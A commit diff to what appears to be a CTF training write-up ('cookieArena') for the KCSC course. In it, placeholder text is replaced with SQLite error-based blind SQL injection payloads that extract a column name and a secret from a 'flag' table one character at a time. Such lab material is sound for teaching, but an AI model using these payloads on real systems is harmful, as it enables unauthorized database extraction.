

Before and after one commit to toanduneee/Training-KCSC, a Markdown page: Task-1/cookieArena.md, 2 parts joined by grey strips. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

```diff
--- a/Task-1/cookieArena.md
+++ b/Task-1/cookieArena.md
@@ -164,5 +164,5 @@ VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{ref
 
-`aaaaaaa`
+`', (SELECT CASE WHEN substr((SELECT name FROM pragma_table_info('flag') LIMIT 1 OFFSET {offset}), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`
 
 ![image](https://github.com/user-attachments/assets/4214545f-1e10-4b4f-b677-d8196c50a05e)
 
@@ -172,5 +172,5 @@ VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{ref
 
-`dfsfsfs`
+`', (SELECT CASE WHEN substr((SELECT secret FROM flag LIMIT 1), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`
 
 ![image](https://github.com/user-attachments/assets/08051c0e-6683-4ebe-8e9b-f168a8a32fa7)
 
```
Also changed, not shown: other parts of Task-1/cookieArena.md (+2 -2 lines).
